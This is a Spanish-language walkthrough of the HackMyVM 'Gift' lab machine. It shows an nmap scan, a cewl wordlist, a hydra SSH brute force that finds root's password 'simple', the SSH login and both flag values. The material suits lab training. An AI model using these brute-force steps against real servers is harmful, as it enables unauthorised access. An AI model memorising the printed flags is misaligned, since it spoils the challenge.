 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Gift HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-07 10:28 EDT
Nmap scan report for 192.168.28.14
Host is up (0.00068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 2c:1b:36:27:e5:4c:52:7b:3e:10:94:41:39:ef:b2:95 (RSA)
|   256 93:c1:1e:32:24:0e:34:d9:02:0e:ff:c3:9c:59:9b:dd (ECDSA)
|_  256 81🆎36:ec:b1:2b:5c:d2:86:55:12:0c:51:00:27:d7 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:24:E6:9E (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```

Vemos que hay una pagina web levantada si entramos dentro de la misma veremos lo siguiente:

```
Dont Overthink. Really, Its simple.
```

Vamos a probar fuerza bruta generando un diccionario de palabras de la web y despues probaremos con el unico usuario que sabemos que puede estar en el sevidor llamado `root` de la siguiente forma:

## Escalate Privileges

### Hydra

Vamos a crear antes el diccionario de contraseñas de la pagina web.

```shell
cewl http://<IP>/index.html > pass.txt
```

Ahora ejecutaremos lo siguiente:

```shell
hydra -l root -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-07 10:46:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://192.168.28.14:22/
[22][ssh] host: 192.168.28.14   login: root   password: simple
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-07 10:46:10
```

Veremos que ha funcionado, por lo que ahora nos vamos a conectar por `SSH` de la siguiente forma:

### SSH

```shell
ssh root@<IP>
```

Metemos como contraseña `simple`.

Info:

```
The authenticity of host '192.168.28.14 (192.168.28.14)' can't be established.
ED25519 key fingerprint is SHA256:dXsAE5SaInFUaPinoxhcuNloPhb2/x2JhoGVdcF8Y6I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.28.14' (ED25519) to the list of known hosts.
root@192.168.28.14's password: 
IM AN SSH SERVER
gift:~# whoami
root
```

Con esto habremos accedido a la maquina y ya seremos el usuario `root` directamente, por lo que leeremos las `flags`.

> user.txt

```
HMV665sXzDS
```

> root.txt

```
HMVtyr543FG
```
